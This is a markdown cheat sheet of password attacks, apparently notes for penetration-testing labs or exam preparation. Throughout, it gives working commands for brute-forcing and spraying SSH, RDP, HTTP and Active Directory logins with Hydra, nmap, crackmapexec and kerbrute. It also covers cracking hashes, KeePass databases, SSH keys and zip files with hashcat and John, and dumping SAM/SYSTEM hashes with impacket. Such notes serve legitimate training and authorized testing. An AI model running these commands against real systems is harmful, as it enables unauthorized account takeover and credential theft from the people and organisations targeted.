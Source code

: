 ## Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

## nmap

The `passwords.txt` argument can be ommitted, if it is then a default password database will be used. It will begin with checking if the password is the same as the username, which is a nice touch that's easily forgotten about otherwise.
```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt <target IP>
```

## Hash Cracking

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
Once cracked `kpcli` is our friend:
```bash
kpcli Database.kdbx
```
User `cd` and `ls` to navigate to the secret of interest:
```bash
kpcli:/> show -a -f <int value of entry of interest>
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.

Similarly if we have an encrypted zip, then we'll wanna get it back to Kali, then run:
```bash
zip2john zippyboi.zip > hopefully-crackable
```
then
```bash
john hopefully-crackable
```

## Active Directory Password Cracking

Back to directly targeting an authentication interface, now in the context of AD. For all of the following it is well worth checking the password policy with `net accounts` in order to be sure that we don't immediately get locked out of every account we hit. All of the following assume that we have obtained a plaintext password by some other means, but don't yet have a matching username.

### Spray-Passwords.ps1
Querying LDAP and ADSI with user creds. This will need to be run on the target machine, however a benefit of this is that it will enumerate which users to hit for us.
```powershell
.\Spray-Passwords.ps1 -Pass 'bigboi123!' -Admin
```
```powershell
.\Spray-Passwords.ps1 -File passwords.txt -Admin
```

### crackmapexec
Another approach to password spraying against a Windows machine is available to us courtesy of `crackmapexec`. To target SMB shares with a username list and a known/candidate password (nb. We should take care to check the domain password policy with `net accounts` before we start blasting):
```bash
crackmapexec smb 192.168.12.34 -u users.txt -p '123456' -d corp.com --continue-on-success
```

### kerbrute
This time our brute forcing is aimed at obtaining a Kerberos Ticket Granting Ticket (TGT):
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "password123"
```

### SAM/SYSTEM
If we have managed to find a backup of an old Windows system then we may have unprivileged access to a SYSTEM and SAM file, containing secrets and credentials from that old system. Some of the hashes may still be relevant. Get the `SAM` and `SYSTEM` files back to Kali and parse like so:
```bash
impacket-secretsdump -sam SAM -system SYSTEM local > old-hashes.txt
```